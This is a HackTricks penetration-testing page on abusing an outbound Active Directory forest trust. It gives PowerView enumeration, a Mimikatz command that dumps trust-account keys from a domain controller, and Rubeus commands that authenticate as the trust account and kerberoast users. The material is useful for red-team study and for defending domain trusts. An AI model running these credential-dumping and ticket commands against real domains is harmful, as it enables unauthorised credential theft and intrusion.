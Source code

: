 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

When an Active Directory domain or forest trust is set up from a domain _B_ to a domain _A_ (_**B**_ trusts A), a trust account is created in domain **A**, named **B. Kerberos trust keys**,\_derived from the **trust account’s password**, are used for **encrypting inter-realm TGTs**, when users of domain A request service tickets for services in domain B.

It's possible to obtain the password and hash of the trusted account from a Domain Controller using:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

The risk is because of trust account B$ is enabled, **B$’s Primary Group is Domain Users of domain A**, any permission granted to Domain Users applies to B$, and it is possible to use B$’s credentials to authenticate against domain A.

{% hint style="warning" %}
Therefore, f**rom the trusting domain it's possible to obtain a user inside the trusted domain**. This user won't have a lot of permissions (just Domain Users probably) but you will be able to **enumerate the external domain**.
{% endhint %}

In this example the trusting domain is `ext.local` and the trusted one is `root.local`. Therefore, a user called `EXT$` is created inside `root.local`.

```bash
# Use mimikatz to dump trusted keys
lsadump::trust /patch
# You can see in the output the old and current credentials
# You will find clear text, AES and RC4 hashes
```

Therefore, at this point have **`root.local\EXT$`**’s current **cleartext password and Kerberos secret key.** The **`root.local\EXT$`** Kerberos AES secret keys are on identical to the AES trust keys as a different salt is used, but the **RC4 keys are the same**. Therefore, we can **use the RC4 trust key** dumped from ext.local as to **authenticate** as `root.local\EXT$` against `root.local`.

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

With this you can start enumerating that domain and even kerberoasting users:

```
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
